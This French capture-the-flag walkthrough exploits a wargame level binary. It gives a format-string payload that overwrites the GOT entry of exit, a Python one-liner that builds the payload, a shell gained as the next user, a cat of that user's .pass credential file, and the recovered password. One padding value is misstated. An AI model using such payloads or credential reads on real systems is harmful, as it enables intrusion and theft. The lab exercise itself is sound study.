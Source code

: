 * On a donc tous les prérequis.
* Notre exploit se présente donc de la manière suivante:
- GOT exit                  => \xe0\x97\x04\x08 => le premier %n va écrire à cette addresse
- GOT exit + 2              => \xe2\x97\x04\x08 => le deuxieme %n va écrire à cette addresse
- padding (0xdd1d = 56105)  => %56605d          => le premier %n va écrire 56613
- premier %n                => %10$hn
- padding (0xffff = 65535)  => %8922d           => le deuxieme %n va écrire 8922 + 56613 = 65535
- deuxieme %n               => %11$hn

```shell
  level05@RainFall:/tmp$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56605d" + "%10$hn" + "%8922d" "%11$hn"' > pattern05

  level05@RainFall:/tmp$ cat pattern05 - | ~/level05
    [...]
  whoami
    level06
  cat /home/users/level06/.pass
    h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
  level05@OverRide:/tmp$ su level06
    Password: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level06/level06
  level06@OverRide:~$
```